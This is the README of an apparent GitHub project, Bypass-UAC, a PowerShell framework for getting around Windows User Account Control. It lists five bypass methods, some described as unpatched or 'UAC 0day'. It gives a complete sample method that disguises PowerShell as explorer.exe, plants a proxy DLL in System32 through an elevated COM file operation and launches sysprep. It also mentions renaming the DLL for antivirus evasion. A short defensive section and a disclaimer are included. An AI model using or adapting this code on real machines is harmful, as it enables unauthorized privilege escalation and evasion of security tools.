


# Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodTcmsetup: Hybrid method (tcmsetup -> tcmsetup.exe.local -> comctl32.dll)
  * Targets: x32/x64 Win7+ (UAC "0day" ¯\_(ツ)_/¯)
* UacMethodNetOle32: Hybrid method (mmc some.msc -> Microsoft.NET\Framework[64]\..\ole32.dll)
  * Targets: x32/x64 Win7+ (UAC "0day" ¯\_(ツ)_/¯)

#### Sample Output

**Win 7 Pro**



**Win 10 Pro**



# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are five methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* Anatomy of UAC Attacks
  * http://www.fuzzysecurity.com/tutorials/27.html
* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* KernelMode, Using SxS redirection to gain NT AUTHORITY\SYSTEM privileges
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643&start=110
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/
